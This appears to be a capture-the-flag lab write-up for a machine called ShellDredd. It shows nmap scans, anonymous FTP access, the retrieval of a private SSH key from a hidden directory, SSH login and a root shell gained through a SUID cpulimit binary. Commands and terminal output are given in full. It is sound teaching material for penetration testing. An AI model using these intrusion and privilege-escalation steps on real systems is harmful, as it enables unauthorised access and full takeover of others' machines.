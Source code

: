 # IP: 	 192.168.188.130


# NMAP
```javascript
                                                                             
┌──(dx㉿kali)-[~]
└─$ nmap -p- --min-rate 10000 192.168.188.130  
Starting Nmap 7.92 ( https://nmap.org ) at 2022-09-07 00:07 EDT
Warning: 192.168.188.130 giving up on port because retransmission cap hit (10).
Nmap scan report for 192.168.188.130
Host is up (0.16s latency).
Not shown: 55497 closed tcp ports (conn-refused), 10036 filtered tcp ports (no-response)
PORT      STATE SERVICE
21/tcp    open  ftp
61000/tcp open  unknown

Nmap done: 1 IP address (1 host up) scanned in 50.34 seconds
┌──(dx㉿kali)-[~]
└─$ nmap -p 21,61000 -sCV 192.168.188.130    
Starting Nmap 7.92 ( https://nmap.org ) at 2022-09-07 00:13 EDT
Nmap scan report for 192.168.188.130
Host is up (0.24s latency).

PORT      STATE SERVICE VERSION
21/tcp    open  ftp     vsftpd 3.0.3
|_ftp-anon: Anonymous FTP login allowed (FTP code 230)
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:192.168.49.188
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 4
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
61000/tcp open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 59:2d:21:0c:2f:af:9d:5a:7b:3e:a4:27:aa:37:89:08 (RSA)
|   256 59:26:da:44:3b:97:d2:30:b1:9b:9b:02:74:8b:87:58 (ECDSA)
|_  256 8e:ad:10:4f:e3:3e:65:28:40:cb:5b:bf:1d:24:7f:17 (ED25519)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 9.74 seconds
                                                                 
```


## FTP - TCP 21

### FTP-Enumeration
`` First Connect and Enumerate the server``
```javascript


                                                                             
┌──(dx㉿kali)-[~]
└─$ ftp 192.168.188.130
Connected to 192.168.188.130.
220 (vsFTPd 3.0.3)
Name (192.168.188.130:dx): Anonymous
331 Please specify the password.
Password: 
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls
229 Entering Extended Passive Mode (|||8122|)
150 Here comes the directory listing.
226 Directory send OK.
```
``This seems to be empty directory let's list all the content by using -a tag with ls``
```javascript
ftp> ls -a
229 Entering Extended Passive Mode (|||49213|)
150 Here comes the directory listing.
drwxr-xr-x    3 0        115          4096 Aug 06  2020 .
drwxr-xr-x    3 0        115          4096 Aug 06  2020 ..
drwxr-xr-x    2 0        0            4096 Aug 06  2020 .hannah
226 Directory send OK.
```
``This directory contain a hidden directory called .hannah . Lets list all the content of the directory``
```javascript
ftp> cd .hannah
250 Directory successfully changed.
ftp> ls -a
229 Entering Extended Passive Mode (|||55010|)
150 Here comes the directory listing.
drwxr-xr-x    2 0        0            4096 Aug 06  2020 .
drwxr-xr-x    3 0        115          4096 Aug 06  2020 ..
-rwxr-xr-x    1 0        0            1823 Aug 06  2020 id_rsa
226 Directory send OK.
```
```We Found Private SSH Key in the hidden directory. We will download the key in our attacker machine```
```javascript
ftp> get id_rsa
local: id_rsa remote: id_rsa
229 Entering Extended Passive Mode (|||34204|)
150 Opening BINARY mode data connection for id_rsa (1823 bytes).
100% |********************************|  1823        7.36 MiB/s    00:00 ETA
226 Transfer complete.
1823 bytes received in 00:00 (5.91 KiB/s)

```

# Exploitation

## SSH

``We have found the ssh key from .hannah directory , let first give permission and then authenticate user against the SSH service on port 61000. ``
```javascript
┌──(dx㉿kali)-[~]
└─$ chmod 0600 id_rsa        
                                                                              
┌──(dx㉿kali)-[~]
└─$ ssh -i id_rsa hannah@192.168.188.130 -p 61000
The authenticity of host '[192.168.188.130]:61000 ([192.168.188.130]:61000)' can't be established.
ED25519 key fingerprint is SHA256:6tx3ODoidGvtQl+T9gJivu3xnndw7PXje1XLn+lZuSM.
This key is not known by any other names
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '[192.168.188.130]:61000' (ED25519) to the list of known hosts.
Linux ShellDredd 4.19.0-10-amd64 #1 SMP Debian 4.19.132-1 (2020-07-24) x86_64
The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
hannah@ShellDredd:~$ 
```
``We have obtained Local Access on the target Machine``
```javascript
hannah@ShellDredd:~$ id
uid=1000(hannah) gid=1000(hannah) groups=1000(hannah),24(cdrom),25(floaudio),30(dip),44(video),46(plugdev),109(netdev),111(bluetooth)
hannah@ShellDredd:~$ whoami
hannah
hannah@ShellDredd:~$ ls
local.txt  user.txt
hannah@ShellDredd:~$ cat local.txt
327ee3792e53c272604de33f33f40db3

```

# Escalation

#### SUID Enumeration
```javascript
hannah@ShellDredd:~$ find / -type f -perm -u=s 2>/dev/null
/usr/lib/eject/dmcrypt-get-device
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/openssh/ssh-keysign
/usr/bin/gpasswd
/usr/bin/newgrp
/usr/bin/umount
/usr/bin/mawk
/usr/bin/chfn
/usr/bin/su
/usr/bin/chsh
/usr/bin/fusermount
/usr/bin/cpulimit
/usr/bin/mount
/usr/bin/passwd
```
```Checking each of the above result in this Website(https://gtfobins.github.io/) for the SUID bit, we found /usr/bin/cpulimit has a SUID bit set```
```javascript
Steps:
1. Go To this Website : https://gtfobins.github.io/gtfobins/cpulimit/#suid
2. Navigate to  SUID Section
3. Since cpulimit is already present in the machine so no need to install it
4. Change this   " ./cpulimit -l 100 -f -- /bin/sh -p " ----> /usr/bin/cpulimit -l 100 -f -- /bin/sh -p
5. paste the  change command to escalate our priviledge
```
```javascript
hannah@ShellDredd:~$ /usr/bin/cpulimit -l 100 -f -- /bin/sh -p
Process 937 detected
# id
uid=1000(hannah) gid=1000(hannah) euid=0(root) egid=0(root) groups=0(root),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),109(netdev),111(bluetooth),1000(hannah)
# whoami
root
# cd /root
# pwd
/root
# ls -la
total 28
drwx------  3 root root 4096 Sep  7 07:12 .
drwxr-xr-x 18 root root 4096 Aug  6  2020 ..
lrwxrwxrwx  1 root root    9 Jan 21  2021 .bash_history -> /dev/null
-rw-r--r--  1 root root  570 Jan 31  2010 .bashrc
-rw-r--r--  1 root root  148 Aug 17  2015 .profile
-rw-------  1 root root   33 Sep  7 07:13 proof.txt
-rw-r--r--  1 root root   32 Jan 29  2021 root.txt
drwxr-xr-x  2 root root 4096 Jan 21  2021 .ssh
# cat proof.txt
b31d4fc497fbe27d5ef3f5c6bfc8cb99
# 
```



